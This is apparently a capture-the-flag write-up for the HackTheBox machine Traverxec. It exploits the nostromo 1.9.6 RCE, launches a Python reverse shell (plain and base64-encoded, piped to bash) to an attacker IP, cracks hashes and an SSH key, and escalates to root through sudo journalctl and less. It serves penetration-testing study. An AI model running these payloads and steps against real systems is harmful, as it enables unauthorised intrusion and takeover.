 # Traverxec HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124390855-611f6100-dce5-11eb-9e04-504177808d60.png)


## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

What's nostromo 1.9.6? I've not seen that before. 
Let's check it out. 

## www-data 

Finding an exploit online and checking it out, seems a socket is used to connect back to the server, nice!

Exploit: https://www.exploit-db.com/exploits/47837

```
 python2.7 cve2019_16278.py 10.10.10.165 80 id
```

![image](https://user-images.githubusercontent.com/5285547/124392012-510a8000-dceb-11eb-98b7-078c1895ce3c.png)

Nice, time for a reverse shell. 

## Payload

python3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.15",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

- Then base64 encoded
- Then urlencoded (all charaters)


- Final payload & command
```
python2.7 cve2019_16278.py 10.10.10.165 80 "echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjE1Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw%3D%3D|base64 -d|bash"
```

![image](https://user-images.githubusercontent.com/5285547/124392273-7a77db80-dcec-11eb-991f-d8bb03df01b4.png)


We're on the box
Using linpeas.sh to enumerate I find david's hash, craking time 2!

![image](https://user-images.githubusercontent.com/5285547/124392503-d8f18980-dced-11eb-9ed4-921b7abde379.png)


```
~/src/john/run/./john hash -w=/usr/share/SecLists/Passwords/rockyou.txt
(I'm using linux mint, adjust to your needs for kali, parrot etc)
```

![image](https://user-images.githubusercontent.com/5285547/124392492-c8d9aa00-dced-11eb-90ce-bc6619bcf4c8.png)

Enumerating the conf files gave away some juicy info realtead to where server paths are defined

```
cat nhttpd.conf 
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

In the /home/david/public_www folder we can find a backup file

![image](https://user-images.githubusercontent.com/5285547/124393531-d7769000-dcf2-11eb-8b94-b40961993b44.png)

Moving the backup file to the tmp file i extracted the data

```
tar -xvf backup-ssh-identity-files.tgz
```

![image](https://user-images.githubusercontent.com/5285547/124393598-14db1d80-dcf3-11eb-9c28-f6179112c44c.png)

Now with the id_rsa key I can use ssh2john to crack the id_rsa, then get onto the box as David.

```
./ssh2john id_rsa > hash
john hash wordlist
```

![image](https://user-images.githubusercontent.com/5285547/124393704-a9de1680-dcf3-11eb-9327-f9082bcaf77d.png)


```
ssh david@10.10.10.165 -i id_rsa
Nowonly4me
```

Result!

![image](https://user-images.githubusercontent.com/5285547/124393778-fa557400-dcf3-11eb-8cfa-2246c8d2e698.png)


## Root

In Davids home folder is a bash script showing a command we can run as root with no password

```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Running the last line gives us sudo execution, not time to find out how to exploit journalctl
Seeing that -n means the last five lines, if we make the termainl smaller then 5 lines we should be bumped into the less command as root

![image](https://user-images.githubusercontent.com/5285547/124394236-8a94b880-dcf6-11eb-935f-f5f95139647d.png)

```
!/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls;hostname
nostromo_1.9.6-1.deb  root.txt
traverxec
```

And get the root flag!



